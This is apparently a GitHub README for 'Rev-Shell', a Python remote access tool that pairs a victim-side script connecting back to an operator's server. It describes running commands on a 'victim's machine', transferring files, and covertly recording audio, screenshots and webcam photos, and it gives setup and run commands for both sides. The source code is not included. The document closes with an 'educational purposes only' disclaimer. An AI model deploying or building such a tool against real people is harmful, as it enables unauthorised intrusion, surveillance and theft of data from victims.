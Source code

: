 ### Rev-Shell Tool

Rev-Shell is a Python-based tool that provides a remote command execution (RCE) capability, enabling users to execute commands on a victim's machine remotely. Additionally, it offers functionalities such as file download and upload, voice recording, capturing screenshots, and recording the victim's screen.

#### How It Works

The tool consists of two main components: a server-side script and a victim-side script.

##### Victim-side Script

The victim-side script (victim.py) is designed to be executed on the target machine. It establishes a socket connection with the server and awaits commands. Upon receiving a command, it executes it on the victim's machine and sends back the results to the server.

##### Server-side Script

The server-side script (server.py) listens for incoming connections from victim machines. Once a connection is established, it sends commands to the victim and receives the output. It provides a user-friendly command-line interface for interacting with connected victims, enabling users to execute various commands and perform actions like file transfer and device capture.

##### Features

- Remote Command Execution: Execute commands on the victim's machine remotely.
- File Download and Upload: Transfer files between the server and victim machines.
- Voice Recording: Record audio from the victim's device.
- Screenshot Capture: Capture screenshots of the victim's screen.
- Webcam Shot: Take photos from the victim's webcam.

#### Usage

1. Setup:  
   Ensure both the server and victim scripts are accessible and properly configured.
   Run the server script on your machine.

2. Victim Execution:
   Execute the victim script on the target machine, providing the server's IP address and port as arguments.
3. Server Interaction:
   Upon successful connection, the server will display information about the victim.
   Use the provided command-line interface to interact with connected victims.

#### Commands

- `help`: Display available commands and their functionalities.
- `screenshot`: Capture a screenshot from the victim's device.
- `record_audio`: Record audio from the victim's microphone.
- `webcam_shot`: Capture a photo from the victim's webcam.
- `download <filename>`: Download a file from the victim's machine.
- `upload <filename>`: Upload a file to the victim's machine.
- `Other commands`: Execute system commands on the victim's machine.

### Installation Instructions

To use the Rev-Shell tool, follow these steps:

- Clone the Repository:

```bash
git clone https://github.com/your_username/rev-shell.git
```

- Navigate to the Directory:

```bash
cd rev-shell
```

- Install Dependencies:

```bash
pip install -r requirements.txt
```

- Configure the Server:
  Modify the server.py script if necessary, such as changing the listening port or IP address.

- Execute the Server:

```bash
python server.py
```

- Configure the Victim:

Edit the victim.py script to specify the server's IP address and port.

- Execute the Victim Script:

```bash

python victim.py -t <server_ip> -p <server_port>
```

- Interact with Connected Victims:

Once the victim connects to the server, use the provided command-line interface to interact with it.
Enjoy Exploring the Features: Have fun exploring the various functionalities offered by the Rev-Shell tool!

##### Additional Notes

- Error Handling: The tool includes robust error handling to ensure reliability during command execution and file transfer.
- Security: Exercise caution when using the tool, ensuring it is used only for ethical and authorized purposes.

##### Disclaimer

This tool is intended for educational and testing purposes only. Misuse of this tool for unauthorized access to systems or networks is strictly prohibited. The developers of this tool are not responsible for any illegal or unethical use of the tool
